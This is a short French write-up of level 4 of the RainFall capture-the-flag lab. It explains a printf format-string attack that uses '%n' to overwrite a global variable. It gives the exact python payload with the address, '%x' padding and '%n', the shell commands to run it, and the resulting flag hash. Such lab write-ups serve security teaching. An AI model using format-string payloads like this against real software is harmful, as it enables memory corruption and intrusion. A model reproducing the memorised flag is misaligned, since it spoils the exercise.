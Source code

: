 ﻿Literallement copy paste du level 3, mais avec une deuxieme fonction, donc stack differente.
Aussi au lieu de comparer la variable globale 'm' avec 0x40 = 64, c'est ici compare avec 0x1025544 = 16930116

On repete donc exactement le meme exploit mais avec un nombre de characteres print different pour remplir 'm'  
en se servant de l'argument '%n' de printf.

A noter par rapport a avant, le debut de la stack est desormais au 12eme argument de printf, et non plus le 4eme.
Meme technique pour savoir: on ecrit dans stdin 'AAAA' (=0x41414141) 
puis on print plein de '%x' pour voir ou est 'AAAA' dans la stack.

Pour recapituler l'exploit python:
- [4] On ecrit l'adresse de la variable 'm' sur la stack
- [4 + 8*10 = 84] On print 10 fois '%x' pour utiliser 10 arguments de la stack
- [84 + 16930032 = 16930116] On print 16930032 characteres + on utilise un argument de la stack
- [16930116] On print '%n' pour ecrire le nombre de characteres print dans 'm'

```bash
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%8x'*10 + '%16930032x' + '%n'" > /tmp/payload4
level4@RainFall:~$ ./level4 < /tmp/payload4
(...)
                                  b7ff37d0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```